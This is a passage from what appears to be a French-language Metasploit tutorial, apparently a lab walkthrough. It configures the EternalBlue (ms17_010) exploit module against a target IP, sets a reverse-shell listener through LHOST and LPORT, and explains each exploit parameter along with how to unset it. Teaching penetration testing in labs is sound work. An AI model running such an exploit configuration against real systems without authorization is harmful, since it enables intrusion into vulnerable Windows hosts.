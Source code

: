 ```bash
   LHOST     10.10.44.70      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Configurons maintenant l'adresse IP cible :

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
```

**Paramètres essentiels**

Voici les paramètres les plus couramment utilisés :

**RHOSTS** (Remote Host)
- Adresse IP du système cible
- Peut être une seule IP ou une plage réseau (ex: 192.168.1.0/24)

**RPORT** (Remote Port)
- Port sur lequel l'application vulnérable écoute
- Exemple : 445 pour SMB, 80 pour HTTP, 22 pour SSH

**PAYLOAD**
- Le payload à utiliser avec l'exploit
- Définit ce qui sera exécuté après l'exploitation

**LHOST** (Local Host)
- Adresse IP de la machine de l'attaquant
- Utilisée pour les reverse shells

**LPORT** (Local Port)
- Port sur lequel l'attaquant écoute
- Utilisé pour recevoir les connexions reverse shell

**SESSION**
- Identifiant de session pour les modules post-exploitation
- Chaque connexion établie reçoit un ID unique

**Supprimer des paramètres**

Pour supprimer un paramètre configuré, utilisez `unset` :

```bash
unset PARAMETER_NAME
```

Pour tout réinitialiser :

```bash
unset all
```
